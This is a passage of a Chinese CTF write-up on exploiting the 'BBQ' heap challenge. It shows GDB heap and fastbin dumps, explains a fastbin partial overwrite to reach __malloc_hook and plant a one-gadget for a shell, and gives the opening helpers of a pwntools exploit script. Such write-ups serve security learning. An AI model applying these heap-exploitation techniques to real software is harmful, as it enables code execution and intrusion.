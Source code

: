free之后的堆布局：

    0x5644c69092c0:	0x00005644c69093b0	0x00007f4f0000007b
    0x5644c69092d0:	0x00005644c69092e0	0x0000000000000021
    0x5644c69092e0:	0x4848484848484848	0x4848484848484848
    0x5644c69092f0<---chunk created by grill, now freed
                  :	0x00005644c6909390	0x0000000000000020
    gef➤  
    0x5644c6909300:	0x0000000000000000	0x00007f4f00000001
    0x5644c6909310:	0x000000cafebabe33	0x0000000000000051
    0x5644c6909320:	0x00007f4f0e06ab78	0x00007f4f0e06ab78
    0x5644c6909330:	0x00005644c69092f0	0x000000000000007b
    gef➤  
    0x5644c6909340:	0x00005644c6909350	0x0000000000000021
    0x5644c6909350:	0x4242424242424242	0x0000000000000000
    0x5644c6909360:	0x0000000000000050	0x0000000000000020
    0x5644c6909370:	0x00005644c6909330	0x000000000000007b
    gef➤  
    0x5644c6909380:	0x00005644c6909390	0x0000000000000021
    0x5644c6909390:	0x00007f4f0e06ab20	0x0000000000000000
    0x5644c69093a0:	0x0000000000000000	0x0000000000000021
    0x5644c69093b0:	0x00005644c6909370	0x000000000000007b

此时的main_arena:

    [ fb 0 ] 0x7f4f0e06ab28  -> [ 0x5644c69092f0 ] (32)<---fake num
    [ fb 1 ] 0x7f4f0e06ab30  -> [ 0x5644c69091d0 ] (48)<---fake name

这样， 我们通过buy就可以修改fb[0]的值，由于buy的时候需要用到两个堆块（food和name），所以我们将其修改为一个符合下列条件的堆块：
1.0x20大小的堆块
2.fd指针指向mallochook附近地址

这一堆块在我们之前在mallochook附近构造0x20堆块头时正好存在，于是我们就可以将fb[0]局部写其低地址从而达到目的

而后就可以愉快的将onegadget写入mallochook getshell 了

    from pwn import *
    
    context.log_level = 'debug'
    io = process('./BBQ')
    elf = ELF('BBQ')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    def p():
    	gdb.attach(io)
    	raw_input()
    def buy(name,n,p = False):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('>>')
    	if p:
    		io.send(name)
    	else:
    		io.sendline(name)
    	io.recvuntil('amount >>')
    	io.sendline(str(n))
    def grill(name,idx):
    	io.recvuntil(':')
    	io.sendline('2')
    	io.recvuntil('food >>')
    	io.sendline(name)
    	io.recvuntil('index >>')
    	io.sendline(str(idx))
    def eat(idx):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('index >>')
    	io.sendline(str(idx))

  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/